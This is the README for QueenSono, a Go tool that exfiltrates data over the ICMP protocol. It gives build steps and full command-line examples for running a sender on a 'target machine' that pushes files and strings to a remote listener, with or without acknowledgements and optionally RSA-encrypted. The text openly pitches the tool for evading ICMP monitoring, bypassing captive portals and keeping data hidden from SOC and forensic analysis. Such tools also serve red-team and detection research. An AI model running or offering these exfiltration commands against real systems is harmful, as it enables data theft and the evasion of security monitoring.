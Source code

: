 


  <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>
<h4 align="center"> A Golang Package for Data Exfiltration with ICMP protocol. </h4>
  <p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher) or to bypass authentication step with captive portal (used by many public Wi-Fi to authenticate users after connecting to the Wi-Fi e.g Airport Wi-Fi). 
  Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
    <br />
    <br>
    <strong>
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#install">Install it</a>
    ·
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#usage">Use it</a>
    ·
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#notes">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
  </strong>
  </p>
</p>

## Install
 *\> Install the binary from source*
 
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. 

`qsreceiver` is the listener on your local machine (or wherever you could receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK" 🔙
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-l 0.0.0.0</code>listen on all interfaces for ICMP packet
    </li>
    <li>
      <code>-f received_bible.txt</code> save received data in a file
    </li>
    <li><code>-p</code> show a progress bar of received data </li>

</details>


On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 127.0.0.1 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>send file</code> for sending file (<code>bible.txt</code> is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 127.0.0.1</code> the listening address for <i>echo reply</i> </li>
    <li><code>-r 10.0.0.92</code> the address of my remote machine with <code>qsreceiver</code> listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
</details>


### Example 2: Send without "ACK" 🙈
*\> In this example we want to send a message without waiting for echo reply (it could be useful in  case the target firewall filters incoming icmp packet)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-trunc.gif?raw=true)


On local machine:

    $ qsreceiver receive truncated 1 -l 0.0.0.0
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>receive truncated 1</code> does not wait indefinitely if we don't received all the packets. (<code>1</code> is the delay used with <code>qssender</code>)</li>
</details>


On target machine:

    $ qssender send "thisisatest i want to send a string w/o waiting for the echo reply" -d 1 -l 127.0.0.1 -r 10.0.0.190 -s 1 -N
<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-N</code> noreply option (don't wait for <i>echo reply</i>)
    </li>
</details>


### Example 3: Send encrypted data 🔒
*\> In this example we want to send an encrypted message. As the command line could be spied on we use asymmetric encryption*

On local machine:

    $ qsreceiver receive -l 0.0.0.0 --encrypt 
    <OUTPUT PUBLIC KEY>
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>--encrypt </code> use encryption exchange. It will generate public/private key. The public one will be used by <code>qssender</code> to encrypt data, the private one is used to decrypt it with <code>receiver</code>
</details>


On target machine:

    $ qssender send "don't worry this message was encrypted with the public key. only you could decrypt it" -d 1 -l 127.0.0.1 -r 10.0.0.190 go.mod -s 5 --encrypt <public_key_from_qsreceiver_output>
<details>
  <summary>Explanation</summary>
    <li>
    <code>--encrypt </code> provide key for data encryption. Use the one provided by the <code>qsreceiver</code> command
    </li>
</details>

#### About encryption
RSA encrytion is used to keep data exchanged confidential. It could be useful for example to avoid a SoC to see what data is exchanged (or forensic) w/ basic analysis or simply for privacy.

But it comes with a cost. The choice of asymetric encryption is motivated by the fact that the encryption key is entered on the command line (so it could be retieved easily). Hence, we encrypt data with public key. Like this if someone retrieve the encryption key it will not be possible to decrypt the message. But the public key is smaller than the private one, so it ***encrypt smaller messages***. Also, ***it is computationally expensive***.

Another point, as we want to limit data size/ping request (avoid detection, bug, etc), **use encryption only if needed** ***as the message output-size will (should) always equal the size of the Modulus*** (part of the key) which is big.

### Notes
- only work on Linux  (due to the use of golang net icmp package)
- need `cap_net_raw capabilities`
